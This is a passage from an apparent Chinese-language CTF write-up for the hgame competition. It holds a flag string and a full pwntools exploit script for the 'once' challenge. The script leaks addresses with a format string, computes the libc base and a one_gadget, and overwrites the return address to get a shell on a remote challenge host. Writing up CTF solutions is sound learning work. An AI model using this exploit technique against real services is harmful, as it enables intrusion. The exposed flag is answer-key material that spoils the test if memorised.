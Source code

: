 脚本起nc连题目，拿到flag`hgame{400a48b3d1b03dc8b9947174a3255bbc2783494c97c90a2ad76c7ed22158048f}`

本地测试的时候，没有注意到`read`读取到预期长度前会阻塞，然后脚本在远程没回显，跟`xiaoyu`学长交 流后意识到这个问题，一位一位加flag长度，最终在0x47收到了完整的flag

### once

典型的泄露地址+覆盖返回地址+再来一次覆盖返回地址+ROP一条龙，题目标题提示的很明确了

这是我第一次完成一道栈溢出的pwn题

写到这里已经是2月5号的17:01了，感觉要赶不上ddl，所以直接放脚本

```python
from pwn import *
from pwnlib import *
import re

print(0x7ffcb30648b8/0x10)
print(0x707070707050/0x10)
context.endian='little'
print(cyclic(40))
print(cyclic_find('kaaalaaa')) #40 for ret addr start
print("rdi:",cyclic_find('iaaajaaa')) #32 for rdi start
# p= process('./once',env={
#     'LD_PRELOAD':"./libc-2.27.so"
# })
argv=list()
argv.append("nc")
argv.append("182.92.108.71")
argv.append("30107")
p=process(argv)
#gdb.attach(p,'b *vuln+47')
p.recvuntil('It is your turn: ')
#RDI  0x6161616a61616149 ('Iaaajaaa') stuck in printf second time
p.send('%p'*20+'\x6a'*1) #69 for main d2 for vuln d6
#p.p64(0x169)
#print('a'*32)
until= p.recvuntil('It is your turn: ')
print(until)
libc_start_main= '0xbf7'
for i in range(0,len(until)-1):
    prefix=until[i:i+2]
    if(b'0x'==prefix) is not True:
        continue
    address=until[i:i+len('0x560cfb338220')]
    print(i,address) #0x556b69e61220
    if str(address,encoding='utf-8').endswith('bf7'):
        print("found",address)
        libc_start_main= address[2:]
        #break
print("libc_start_main+231:", libc_start_main)
#libc=libc_start_main-0x21b10
libc_start_main=bytes.fromhex(str(libc_start_main, encoding='utf-8'))
libc= int.from_bytes(libc_start_main,byteorder='big',signed=False)-231-0x21b10
print("libc:",hex(libc))
one_gadget=libc+0x4f3e3
print("rbp:",cyclic_find('iaaajaaa'))
one_gadget_data= int.to_bytes(one_gadget,6,byteorder='little',signed=False)
#fmtstr_payload(29)
p.send('%x'*20)
p.send_raw(one_gadget_data)
#p.send(cyclic(0x100))
#p.send('%p'*20+'\x6a'*1)
#p.p64(one_gadget)
p.interactive()
```
